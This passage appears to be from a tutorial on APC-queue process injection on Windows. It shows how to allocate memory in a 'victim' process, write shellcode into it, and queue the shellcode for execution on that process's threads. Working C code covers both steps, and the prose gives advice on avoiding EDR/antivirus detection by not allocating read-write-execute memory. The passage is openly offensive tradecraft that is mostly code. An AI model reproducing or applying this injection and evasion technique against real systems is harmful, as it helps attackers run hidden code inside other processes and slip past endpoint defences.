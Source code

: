 Then, we need to allocate memory space for our shellcode in the target process using the [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) function. we should allocate this location with **PAGE_EXECUTE_READWRITE** (Execute, Read, Write) permissions. most of the time allocating memory location with **RWX** permission could trigger EDR/AV. instead, we can allocate the location with **PAGE_READWRITE** (Read, Write) permissions at first, and after writing the shellcode we can change the permission of the memory location to **PAGE_EXECUTE_READ** (Execute, Read) using [VirtualProtectEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) function. but remember that your shellcode should not be self modifying because in that case it needs to write into the memory location and it doesn't have the write permission to do it.
 
```c
DWORD OldProtect = 0;
DWORD target_process_id = find_process(TARGET_PROCESS_NAME);
HANDLE target_process_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, target_process_id);
LPVOID target_process_buffer = VirtualAllocEx(target_process_handle, NULL, (SIZE_T) sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(target_process_handle, target_process_buffer, shellcode, (SIZE_T) sizeof(shellcode), NULL);
VirtualProtectEx(target_process_handle, target_process_buffer, (SIZE_T) sizeof(shellcode), PAGE_EXECUTE_READ, &OldProtect);
```
Then we should get the list of all the system threads using [CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) with **TH32CS_SNAPTHREAD** flag and iterate through all the threads using [Thread32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first) and [Thread32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next) functions to find the threads of our victim process. both of these functions get a pointer to the [THREADENTRY32](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-threadentry32) struct that will be filled with the information about the thread after calling these functions. we compare the **th32OwnerProcessID** member of our **THREADENTRY32** instant with the target process id to see if the thread belongs to our victim process. this member actually shows the process id of the thread owner. 

If the thread belongs to our target process we queue an APC to the thread using the [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) function. the first parameter should be a pointer to the function that we want to execute which is a pointer to our shellcode and the second parameter is a handle to the remote thread.

```c
THREADENTRY32 te;
te.dwSize = sizeof(THREADENTRY32);
	
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

for (Thread32First(snapshot, &te); Thread32Next(snapshot, &te);) {
	if (te.th32OwnerProcessID == target_process_id) {
		
		HANDLE target_thread_handle = OpenThread(THREAD_ALL_ACCESS, NULL, te.th32ThreadID);
			
		if (QueueUserAPC((PAPCFUNC)target_process_buffer ,target_thread_handle, NULL)) {
			printf("Queuing an APC to thread id %d\n", te.th32ThreadID);
		}
			
	}
}
```
